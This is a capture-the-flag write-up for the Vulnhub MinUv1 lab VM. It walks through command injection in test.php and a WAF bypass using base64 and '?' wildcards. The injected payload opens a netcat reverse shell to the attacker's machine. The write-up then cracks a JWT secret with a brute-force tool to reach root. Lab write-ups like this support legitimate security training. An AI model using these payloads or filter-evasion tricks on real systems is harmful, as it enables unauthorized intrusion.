 # MinUv1 Vulnhub Writeup

Link:           [MinUv1 by 8bitsec](https://www.vulnhub.com/entry/minu-1,235/)

* Details:        Boot2Root Virtual Machine
* Author Rating:  Easy/Intermediate
* Flag Count:     1
* Flag Location:  /root/flag.txt
* Flag Contents:  flag{c89031ac1b40954bb9a0589adcb6d174}

## Runsheet

Located the Virtual Machine's IP;

```bash
arp-scan 192.168.56.0/24
```

Nmap Host to identify open ports on the machine and attempt to identify the host operating system;

```bash
nmap -sV -O 192.168.56.102
```

Of particular intrest was the Port 80, which gave us a standard Apache2 Stock landing screen. I applied nikto and dirb against the host to identify any possible subdomians or files of interest;

```bash
nikto -h http://192.168.56.102/
```

```bash
dirb http://192.168.56.102/ /usr/share/wordlists/dirb/common.txt -X php
```

Resulting in the identification of the following interesting file; `test.php`, which contained the ability to see the last user details on who visited the website. It displays a file, and this file contains nothing at the moment, which is displayed through a URI request, looking like so;

```html
http://192.168.56.102/test.php?file=last.html
```

This read to me as some form of PHP execution call to a file, considering the filename that was being called in it, and I considered it to be some form of Local File Inclusion. So I attempted some Wfuzz to speed up the attempt to identify possible Local Files on the machine. The command used was;

```bash
wfuzz -f file,/usr/share/wordlist/wfuzz/general/common.txt http://192.168.56.102/test.php?file=WFUZZ
```

This showed 403 forbidden response, which read as some form of security on the server, which does not help me at all. The next stage would be to test for OS command injection, which could help us identify what command it may be using for reading the file or just try and execute commands on the OS. Wfuzz seemed like the ideal choice to bruteforce OS command injections for this, the command used was;

```bash
wfuzz -f file,/usr/share/wordlist/wfuzz/Injections/All_attacks.txt http://192.168.56.102/test.php?file=WFUZZ
```

After a lot of checks, we identified that the command `|dir` in the `?file=` gave us a directory listing, meaning we have some form of code execution. Next was to find the command executed by this, from what we could tell, its reading a file, and by doing `--version`, we are told it is using cat, a basic application for reading a file. We have now found out that we can use the `|` operand to add a new command and bypass whatever security they have. Now we need to try and execute commands on the system. Since we know the `|` operander works, we can start trying to execute commands as possible.

Firstly, we want to figure out the command we want to execute, in this case, we are trying to get a reverse shell to our kali image. The command we want to execute is;

```bash
nc -e /bin/sh 192.168.56.101 1337
```

Obviously this command wont execute, due to the filtering we have seen, so we need some encoding to bypass this. The most common encoding is base64, which can be called in linux by using `base64` and by using the extension command `-d` which will decode it. To usually call this command, we usually call `echo "$base64command" | base64 -d`, but in case the Path variable is not set, we should be doing absolute pathing so we would expand it to `/bin/echo "$base64command"|/usr/bin/base64 -d`. Finally, we want to pipe that into sh, so we add to the end `/bin/echo "$base64command"|/usr/bin/base64 -d|/bin/sh`. Finally we needed to execute this command alongside the full command, using `|` will not work, but using `&` will work for this. Giving us the command;

```bash
&/bin/echo bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjU2LjEwMSAxMzM3Cg==|/usr/bin/base64 -d|/bin/sh
```

Attempting this will give us a straight away 403, since we have not tried to hide our commands like base64, and echo, which are both considered dangerous commands. One of the tricks I learnt a while back was the usage of `?` in a command name in linux, for example, calling to `/bin/echo` could be called by replacing some of the letters, giving us `/bin/ech?`, which will still execute the same command, just avoids filters, and since we already have the URI component containing a `?`, its very likely that it will execute. To save time, I have already done this in the below command.

```bash
&/bin/ech? bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjU2LjEwMSAxMzM3Cg==|/u?r/bin/b?se64 -d|/bin/?h
```

This still did not work, so we need to find why, some filters will avoid letting you add `=` or `&` to a URI request, so lets try chainging them, firstly, lets modify the `&` to a `%26`, also known as the URI encoding for `&`. Next we need to remove the `==` from our string, but if we remove it raw from our Base64, it will destory our command. One thing I was informed of was that by adding a trailing space to our base64 encoded command, we can remove one `=` sign, and by adding 2, we remove both of them. So our input to encode our base64 command would be `echo "nc -e /bin/sh 192.168.56.101 1337  " | base64` which gives us the final command;

```bash
%26/bin/ech? bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjU2LjEwMSAxMzM3ICAK|/u?r/b?n/b?se64 -d|/bin/?h
```

By running a listener on our machine using the command below, we are given a shell to use.

```bash
nc -nvlp 1337
```

Firstly, we find out we are on the user account `www-data`, which means we are not root just yet. So I start by using a basic linux privlage escalation checker, the [ihack4falafel impelmentation of GotMilks guide](https://github.com/ihack4falafel/OSCP/blob/master/BASH/LinuxPrivCheck.sh), which tells me we have access another user on the box, bob. a quick `ls -al` of the /home/ directory tells us we can read this directory. Inside, we have a file called `._pw_`, which we can read and contains the following string.

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

I got to wondering what the string contains, and after a quick look, I seperated the strings based upon the `.` which seperated parts of the string. Breaking it down like this gave us the following;

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
.
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
.
pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

A check of each string on HashID could not find the first 2, but the 3rd was a SHA256 variant. I put the next 2 into CyberChef under magic, and it showed me it was Base64, doing base64 against them gave us the following.

```json
{"alg":"HS256","typ":"JWT"}
.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
.
pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
```

The part that called our attention was the `"typ": "JWT"` which showed us (after a quick google search) that this was in fact a JSON Web Token, used for authentication. We first spent ages trying to find a usage for it, and then got frustrated and ended up googling more to find out about that standard. The final string is a SHA256 that is a hash of the following;

```text
SHA256{
    String1+
    String2+
    Secret
}
```

The secret is the only part of the JWT SHA256 we currently do not have, and I assume that is what we are looking for, so lets find a way to crack it, in this case, a piece of software already exists to do it for us. Its called [C-JWT-Cracker](https://github.com/brendan-rius/c-jwt-cracker), which speeds up the process a lot.

By using this executable, alongside the JWT, I was able to get the Secret in under 2 minuites, but it will use 100% on all cores of your CPU.

```bash
root@kali:~/c-jwt-cracker$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cw
Secret is "mlnV1"
```

The secret reminded me of the boxes name, so I tried it to `su root` with that as the password, and bam, we got root on MinUv1. Finally we `cat /root/flag.txt` and we are done.

```text
  __  __ _       _    _      __
 |  \/  (_)     | |  | |    /_ |
 | \  / |_ _ __ | |  | |_   _| |
 | |\/| | | '_ \| |  | \ \ / / |
 | |  | | | | | | |__| |\ V /| |
 |_|  |_|_|_| |_|\____/  \_/ |_|


# You got r00t!

flag{c89031ac1b40954bb9a0589adcb6d174}

# You probably know this by now but the webserver on this challenge is
# protected by mod_security and the owasp crs 3.0 project on paranoia level 3.
# The webpage is so poorly coded that even this configuration can be bypassed
# by using the bash wildcard ? that allows mod_security to let the command through.
# At least that is how the challenge was designed ;)
# Let me know if you got here using another method!

# contact@8bitsec.io
# @_8bitsec
```